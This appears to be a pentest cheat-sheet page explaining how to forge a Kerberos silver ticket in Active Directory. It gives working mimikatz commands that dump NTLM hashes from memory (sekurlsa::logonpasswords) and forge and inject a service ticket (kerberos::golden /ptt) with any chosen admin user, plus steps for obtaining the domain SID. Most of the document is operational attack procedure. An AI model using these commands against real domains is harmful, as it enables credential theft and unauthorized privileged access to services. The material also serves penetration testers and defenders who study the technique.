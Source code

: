 # What is it?
With the service account password or its associated NTLM hash at hand, we can forge our own service ticket to access the target resource (in our example, the IIS application) with any permissions we desire. This custom-created ticket is known as a silver ticket and if the service principal name is used on multiple servers, the silver ticket can be leveraged against them all.
# How to do it
In general, we need to collect the following three pieces of information to create a silver ticket:
* SPN password hash
* Domain SID
* Target SPN
## Get the target SPN
See AS-REP/Kerberoasting to find service accounts.
## Get the SPN Password Hash
On mimikatz, use the following:
```
privilege::debug
```
```
sekurlsa::logonpasswords
```
Note the NTLM hash of the SPN the silver ticket is for. 
## Get the Domain SID
```
whoami /user
```
Everything up until the last 4 numbers of the user SID is the domain SID.

e.g. 
User SID = S-1-5-21-1987370270-658905905-1781884369-1105

Domain SID = S-1-5-21-1987370270-658905905-1781884369
## Crafting the ticket
Note: "Service type" would be the kind of service the account provides. i.e. "iis_service" account would be "http" type.

Also, Admin user can be any admin user - even one you don't have creds for.

In mimikatz on the target, run the following:
```
kerberos::golden /sid:$(DOMAIN_SID) /domain:$(DOMAIN) /ptt /target:($HOSTNAME_OF_TARGET_WHERE_SPN_RUNS) /service:$(SERVICE_TYPE) /rc4:$(NTLM_OF_SPN) /user:$(ADMIN_USER)
```
